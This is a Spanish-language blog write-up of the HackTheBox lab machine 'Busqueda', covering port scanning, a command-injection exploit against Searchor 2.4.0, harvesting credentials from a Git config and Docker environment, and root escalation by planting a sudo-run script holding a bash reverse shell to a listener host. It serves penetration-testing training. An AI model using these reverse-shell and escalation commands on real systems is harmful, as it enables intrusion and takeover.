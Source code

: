 
---
title: "Busqueda"
summary: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo `Python` para obtener acceso a nivel de usuario a la máquina. Para escalar privilegios a `root`, descubrimos credenciales dentro de un archivo de configuración `Git`, lo que nos permite iniciar sesión en un servicio `Gitea` local."
categories: ["Post","Blog",]
tags: ["hackthebox machine"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2024-12-18

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Linux |
| **Dificultad** | Fácil |
| **IP** | 10.10.11.208 |
- - -
## Enumeración

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

ESTADO DEL PUERTO VERSIÓN DEL SERVICIO
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocolo 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open http Apache httpd 2.4.52
|_http-title: No se siguió la redirección a http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Información del servicio: Host: searcher.htb; SO: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos ver que la web en el puerto 80 redirige a **searcher.htb**. Vamos a agregarlo a `/etc/hosts`.

Tan pronto como aterrizamos en la página, vemos lo siguiente:
![Busqueda1](img/busqueda/busqueda1.png)

Un vistazo rápido muestra la versión de la aplicación que se está ejecutando detrás de este sitio web, que es **Searchor 2.4.0**. Si buscamos vulnerabilidades, encontramos el siguiente [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Explotación
Ejecutamos el exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

Colocamos un listener `netcat` para recibir la conexión:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

Ingresamos exitosamente a la máquina como usuario **svc** .
```bash
svc@busqueda:~$ cat usuario.txt
cat usuario.txt
75a17...8bd3e
```
- - -
## Escalada de privilegios
Al revisar los archivos del sistema, encontramos un `.git` con credenciales en la carpeta **app**.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
repositoryformatversion = 0
...
[remote "origin"]
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
remote = origin
merge = refs/heads/main
```

El usuario es **cody** y la contraseña es **jh1usoih2bkjaspwe92** para una aplicación en un subdominio llamado **gitea**. Vamos a añadirlo al `/etc/hosts` y echarle un vistazo.

![Busqueda2](img/busqueda/busqueda2.png)

Aquí dentro no encontramos nada interesante, salvo que podemos ver un usuario llamado **administrador**. Aunque podemos intentar usar SSH con el usuario **svc** y la contraseña de **cody**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208
Contraseña de svc@10.10.11.208:
Bienvenido a Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

* Documentación: https://help.ubuntu.com
* Administración: https://landscape.canonical.com
* Soporte: https://ubuntu.com/advantage

...

Último inicio de sesión: mar abr 4 17:02:09 2023 desde 10.10.14.19
```

Comprobemos los privilegios de sudo que tiene este usuario:

```bash
svc@busqueda:/opt/scripts$ sudo -l

El usuario svc puede ejecutar los siguientes comandos en busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Este usuario tiene derecho a ejecutar ese script dentro de **/opr/scripts**.

Si lo ejecutamos, podemos ver las siguientes opciones:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Uso: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

docker-ps : Listar los contenedores de Docker en ejecución
docker-inspect : Inspeccionar un determinado contenedor de Docker
full-checkup : Ejecutar una comprobación completa del sistema
```

Después de investigar un poco, descubrimos que la opción `docker-inspect` se puede usar para recuperar información de los contenedores de Docker que se están ejecutando en la máquina, antes vista con la opción `docker-ps`.

```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
```

Parece que encontramos más credenciales para la aplicación **gitea**. Intentemos iniciar sesión como **administrador**
con estas credenciales.

![Busqueda3](img/busqueda/busqueda3.png)

¡Genial! Ahora podemos comprobar el contenido de los **scripts** en la carpeta **/opt**.

Al leer el script `system-checkup.py` notamos que el script `full-checkup.sh` es referenciado como si estuviera en la misma carpeta:

```
...
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
...
```

Podemos abusar de esto creando nuestro propio script malicioso y referenciarlo, ya que lo estamos ejecutando con privilegios sudo:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Ten en cuenta que debes otorgar privilegios de ejecución al script para que se ejecute, ya que este fue un error mío que me llevó bastante tiempo descubrir.

Ahora, configuramos un listener `netcat` y ejecutamos el script malicioso:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

En el `netcat` recibimos el shell root:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

¡Genial! Hemos rooteado la máquina.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```